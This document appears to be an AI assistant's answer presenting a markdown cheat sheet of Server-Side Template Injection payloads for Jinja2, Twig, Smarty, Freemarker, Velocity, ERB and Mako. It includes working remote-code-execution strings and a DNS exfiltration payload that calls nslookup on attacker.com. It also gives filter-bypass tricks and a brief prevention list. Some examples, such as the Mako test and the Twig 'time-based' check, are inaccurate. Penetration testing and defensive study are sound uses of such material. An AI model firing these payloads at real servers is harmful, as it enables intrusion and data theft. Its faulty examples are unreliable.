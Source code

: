 Here's a comprehensive **Server-Side Template Injection (SSTI)** payloads cheat sheet in a markdown file:

```markdown
# Server-Side Template Injection (SSTI) Payloads Cheat Sheet

Server-Side Template Injection (SSTI) occurs when an attacker injects malicious input into server-side templates, leading to remote code execution (RCE). Below is a collection of SSTI payloads for various template engines.

---

## **1. Basic Detection Payloads**
Test if the application is vulnerable to SSTI by injecting simple expressions:

### **Generic Detection**
```plaintext
${7*7}
{{7*7}}
<%= 7*7 %>
#{7*7}
*{7*7}
${{7*7}}
#{7*7}
```

### **Mathematical Operations**
```plaintext
{{7*'7'}} → If output is '49' or '7777777', SSTI may exist
{{7*7}} → Expected output: 49
```

### **String Concatenation**
```plaintext
{{'a'+'b'}} → Expected: 'ab'
{{"a"+"b"}} → Expected: 'ab'
```

---

## **2. Template Engine Identification**
Different engines use different syntax. Identify the engine first:

| **Engine**       | **Test Payload**               | **Expected Output** |
|------------------|--------------------------------|---------------------|
| **Jinja2 (Python)** | `{{ 7*'7' }}` | `7777777` |
| **Twig (PHP)** | `{{ 7*7 }}` | `49` |
| **Smarty** | `{7*7}` | `49` |
| **Freemarker** | `${7*7}` | `49` |
| **Velocity** | `#set($x=7*7)${x}` | `49` |
| **ERB (Ruby)** | `<%= 7*7 %>` | `49` |
| **Handlebars** | `{{7*7}}` | Usually no output (safe by default) |
| **Mako (Python)** | `<% 7*7 %>` | `49` |

---

## **3. Exploitation Payloads**
Once the engine is identified, use these payloads for RCE.

### **Jinja2 (Python)**
```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ ''.__class__.__mro__[1].__subclasses__()[407]('whoami', shell=True, stdout=-1).communicate() }}

{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```

### **Twig (PHP)**
```plaintext
{{ _self.env.registerUndefinedFilterCallback("exec") }}{{ _self.env.getFilter("id") }}

{{ ['id']|filter('system') }}
```

### **Smarty (PHP)**
```plaintext
{php}echo shell_exec('id');{/php}

{system('id')}
```

### **Freemarker (Java)**
```plaintext
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id") }
```

### **Velocity (Java)**
```plaintext
#set($x='')${x.getClass().forName('java.lang.Runtime').getRuntime().exec('id')}
```

### **ERB (Ruby)**
```plaintext
<%= system("id") %>

<%= `id` %>
```

### **Mako (Python)**
```plaintext
<% import os %>${os.system('id')}
```

---

## **4. Blind SSTI Detection**
If no output is reflected, use time-based or out-of-band (OOB) techniques.

### **Time-Based Detection**
```plaintext
{% if 1 == 1 %}sleep 5{% endif %}  (Twig)
{{ range(1,100000000) }} (Jinja2 - may cause delay)
```

### **DNS Exfiltration (OOB)**
```plaintext
{{ ''.__class__.__mro__[1].__subclasses__()[407]('nslookup attacker.com', shell=True) }} (Jinja2)
```

---

## **5. Bypassing Filters**
If certain characters (`{{`, `}}`, `$`, etc.) are blocked, try:

### **Alternative Syntax**
```plaintext
{% raw %}{{ 7*7 }}{% endraw %} (Jinja2)
{# comment #} {{ 7*7 }} (Twig)
```

### **Hex/URL Encoding**
```plaintext
%7B%7B7*7%7D%7D → {{7*7}}
\x7B\x7B7*7\x7D\x7D → {{7*7}}
```

### **Concatenation Bypass**
```plaintext
{{ '{{' }}7*7{{ '}}' }} → {{7*7}}
```

---

## **6. Prevention & Mitigation**
1. **Use Sandboxed Templates** (e.g., Jinja2 sandbox mode).
2. **Disallow User-Supplied Templates** if possible.
3. **Whitelist Safe Functions** (no `eval`, `exec`, `os.system`).
4. **Input Validation** (block `{{`, `}}`, `$`, `<%`, etc.).
5. **Use Logic-less Templates** (e.g., Handlebars, Mustache).

---

## **7. Important Notes**
- **Legal & Ethical Use Only**: Unauthorized testing is illegal.
- **Always Get Permission**: Test only on authorized systems.
- **Avoid Destructive Payloads**: Use `id`, `whoami`, or `sleep` instead of `rm -rf`.

Use these payloads **responsibly** for security research and penetration testing.
```

### **Features of This Cheat Sheet**
✅ **Covers multiple template engines** (Jinja2, Twig, Smarty, Freemarker, etc.)  
✅ **Detection + Exploitation Payloads**  
✅ **Blind SSTI techniques** (time-based, OOB)  
✅ **Filter bypass methods**  
✅ **Prevention best practices**  

